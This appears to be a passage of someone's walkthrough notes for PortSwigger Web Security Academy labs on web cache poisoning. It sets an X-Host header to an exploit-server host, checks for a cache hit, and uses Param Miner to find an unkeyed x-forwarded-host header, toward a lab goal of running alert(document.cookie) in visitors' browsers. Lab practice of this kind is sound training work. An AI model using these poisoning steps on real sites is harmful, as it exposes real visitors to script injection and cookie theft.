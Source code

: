 ```bash

To

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.61 Safari/537.36

Ensure X-Host is:

X-Host: exploit-0ae0002f03aad178c07d4fbf01ae00ae.web-security-academy.net

Send
Ensure the response includes:

X-Cache: hit

Go to:

https://0a3c00460408c1edc00502c300d700f5.web-security-academy.net/

Refresh the page

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220603213055.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220603213122.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220603213150.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220603213022.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220603214621.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220603215401.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220603223758.png)

### Web cache poisoning to exploit a DOM vulnerability via a cache with strict cacheability criteria
```bash

# This lab contains a DOM-based vulnerability that can be exploited as part of a web cache poisoning attack. A user visits the home page roughly once a minute. Note that the cache used by this lab has stricter criteria for deciding which responses are cacheable, so you will need to study the cache behavior closely.

# To solve the lab, poison the cache with a response that executes alert(document.cookie) in the visitor's browser. 

Refresh the page
Go to: HTTP history
Find:

GET / HTTP/1.1

Send to repeater
Right-click -> Extensions -> Param Miner -> Guess params -> Guess headers -> OK
Go to: Target -> Issues
Issue details:

'Cache poisoning: 'x-forwarded-host'. Disregard the request and look for zwrtxqva in the response'

```